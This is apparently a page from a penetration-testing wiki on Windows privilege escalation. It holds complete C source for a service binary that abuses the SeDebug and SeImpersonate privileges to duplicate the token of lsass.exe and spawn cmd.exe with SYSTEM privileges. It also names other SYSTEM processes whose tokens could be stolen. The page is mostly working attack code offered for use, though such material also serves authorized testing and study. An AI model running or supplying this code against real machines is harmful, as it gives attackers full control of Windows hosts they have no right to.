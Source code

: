 # SeDebug + SeImpersonate copy token

The following code **exploits the privileges SeDebug and SeImpersonate** to copy the token from a **process running as SYSTEM** and with **all the token privileges**.  
In this case, this code can be compiled and used as a **Windows service binary** to check that it's working.  
However, the main part of the **code where the elevation occurs** is inside the **`Exploit`** **function**.  
Inside of that function you can see that the **process** _**lsass.exe**_ **is searched**, then it's **token is copied**, and finally that **token is used to spawn a new** _**cmd.exe**_ **with all the privileges of the copied token**.

**Other processes** running as SYSTEM with all or most of the token privileges are: _**services.exe**_**,** _**svhost.exe**_ \(on of the firsts ones\), _**wininit.exe**_**,** _**csrss.exe**_... \(_remember that you won't be able to copy a token from a Protected process_\). Moreover, you can use the tool [Process Hacker](https://processhacker.sourceforge.io/downloads.php) running as administrator to see the tokens of a process.

```c
#include <windows.h>
#include <tlhelp32.h>
#include <tchar.h>
#pragma comment (lib, "advapi32")

TCHAR* serviceName = TEXT("TokenDanceSrv");
SERVICE_STATUS serviceStatus;
SERVICE_STATUS_HANDLE serviceStatusHandle = 0;
HANDLE stopServiceEvent = 0;

//This function will find the pid of a process by name
int FindTarget(const char *procname) {

    HANDLE hProcSnap;
    PROCESSENTRY32 pe32;
    int pid = 0;

    hProcSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (INVALID_HANDLE_VALUE == hProcSnap) return 0;

    pe32.dwSize = sizeof(PROCESSENTRY32); 

    if (!Process32First(hProcSnap, &pe32)) {
            CloseHandle(hProcSnap);
            return 0;
    }

    while (Process32Next(hProcSnap, &pe32)) {
            if (lstrcmpiA(procname, pe32.szExeFile) == 0) {
                    pid = pe32.th32ProcessID;
                    break;
            }
    }

    CloseHandle(hProcSnap);

    return pid;
}


int Exploit(void) {

    HANDLE hSystemToken, hSystemProcess;
    HANDLE dupSystemToken = NULL;
    HANDLE hProcess, hThread;
    STARTUPINFOA si;
    PROCESS_INFORMATION pi;
    int pid = 0;


    ZeroMemory(&si, sizeof(si));
    si.cb = sizeof(si);
    ZeroMemory(&pi, sizeof(pi));

    // open high privileged process
    if ( pid = FindTarget("lsass.exe") ) 
        hSystemProcess = OpenProcess(PROCESS_QUERY_INFORMATION, FALSE, pid);
    else
        return -1;

    // extract high privileged token
    if (!OpenProcessToken(hSystemProcess, TOKEN_ALL_ACCESS, &hSystemToken)) {
        CloseHandle(hSystemProcess);
        return -1;
    }

    // make a copy of a token
    DuplicateTokenEx(hSystemToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &dupSystemToken);    

    // and spawn a new process with higher privs
    CreateProcessAsUserA(dupSystemToken, "C:\\windows\\system32\\cmd.exe", 
                        NULL, NULL, NULL, TRUE, 0, NULL, NULL, &si, &pi);

    return 0;
}


void WINAPI ServiceControlHandler( DWORD controlCode ) {
    switch ( controlCode ) {
        case SERVICE_CONTROL_SHUTDOWN:
        case SERVICE_CONTROL_STOP:
            serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
            SetServiceStatus( serviceStatusHandle, &serviceStatus );

            SetEvent( stopServiceEvent );
            return;

        case SERVICE_CONTROL_PAUSE:
            break;

        case SERVICE_CONTROL_CONTINUE:
            break;

        case SERVICE_CONTROL_INTERROGATE:
            break;

        default:
            break;
    }
    SetServiceStatus( serviceStatusHandle, &serviceStatus );
}

void WINAPI ServiceMain( DWORD argc, TCHAR* argv[] ) {
    // initialise service status
    serviceStatus.dwServiceType = SERVICE_WIN32;
    serviceStatus.dwCurrentState = SERVICE_STOPPED;
    serviceStatus.dwControlsAccepted = 0;
    serviceStatus.dwWin32ExitCode = NO_ERROR;
    serviceStatus.dwServiceSpecificExitCode = NO_ERROR;
    serviceStatus.dwCheckPoint = 0;
    serviceStatus.dwWaitHint = 0;

    serviceStatusHandle = RegisterServiceCtrlHandler( serviceName, ServiceControlHandler );

    if ( serviceStatusHandle ) {
        // service is starting
        serviceStatus.dwCurrentState = SERVICE_START_PENDING;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );

        // do initialisation here
        stopServiceEvent = CreateEvent( 0, FALSE, FALSE, 0 );

        // running
        serviceStatus.dwControlsAccepted |= (SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
        serviceStatus.dwCurrentState = SERVICE_RUNNING;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );

        Exploit();
        WaitForSingleObject( stopServiceEvent, -1 );

        // service was stopped
        serviceStatus.dwCurrentState = SERVICE_STOP_PENDING;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );

        // do cleanup here
        CloseHandle( stopServiceEvent );
        stopServiceEvent = 0;

        // service is now stopped
        serviceStatus.dwControlsAccepted &= ~(SERVICE_ACCEPT_STOP | SERVICE_ACCEPT_SHUTDOWN);
        serviceStatus.dwCurrentState = SERVICE_STOPPED;
        SetServiceStatus( serviceStatusHandle, &serviceStatus );
    }
}


void InstallService() {
    SC_HANDLE serviceControlManager = OpenSCManager( 0, 0, SC_MANAGER_CREATE_SERVICE );

    if ( serviceControlManager ) {
        TCHAR path[ _MAX_PATH + 1 ];
        if ( GetModuleFileName( 0, path, sizeof(path)/sizeof(path[0]) ) > 0 ) {
            SC_HANDLE service = CreateService( serviceControlManager,
                            serviceName, serviceName,
                            SERVICE_ALL_ACCESS, SERVICE_WIN32_OWN_PROCESS,
                            SERVICE_AUTO_START, SERVICE_ERROR_IGNORE, path,
                            0, 0, 0, 0, 0 );
            if ( service )
                CloseServiceHandle( service );
        }
        CloseServiceHandle( serviceControlManager );
    }
}

void UninstallService() {
    SC_HANDLE serviceControlManager = OpenSCManager( 0, 0, SC_MANAGER_CONNECT );

    if ( serviceControlManager ) {
        SC_HANDLE service = OpenService( serviceControlManager,
            serviceName, SERVICE_QUERY_STATUS | DELETE );
        if ( service ) {
            SERVICE_STATUS serviceStatus;
            if ( QueryServiceStatus( service, &serviceStatus ) ) {
                if ( serviceStatus.dwCurrentState == SERVICE_STOPPED )
                    DeleteService( service );
            }
            CloseServiceHandle( service );
        }
        CloseServiceHandle( serviceControlManager );
    }
}

int _tmain( int argc, TCHAR* argv[] )
{
    if ( argc > 1 && lstrcmpi( argv[1], TEXT("install") ) == 0 ) {
        InstallService();
    }
    else if ( argc > 1 && lstrcmpi( argv[1], TEXT("uninstall") ) == 0 ) {
        UninstallService();
    }
    else  {
        SERVICE_TABLE_ENTRY serviceTable[] = {
            { serviceName, ServiceMain },
            { 0, 0 }
        };

        StartServiceCtrlDispatcher( serviceTable );
    }    

    return 0;
}
```

**The code of this example was shared by an anonymous person.**

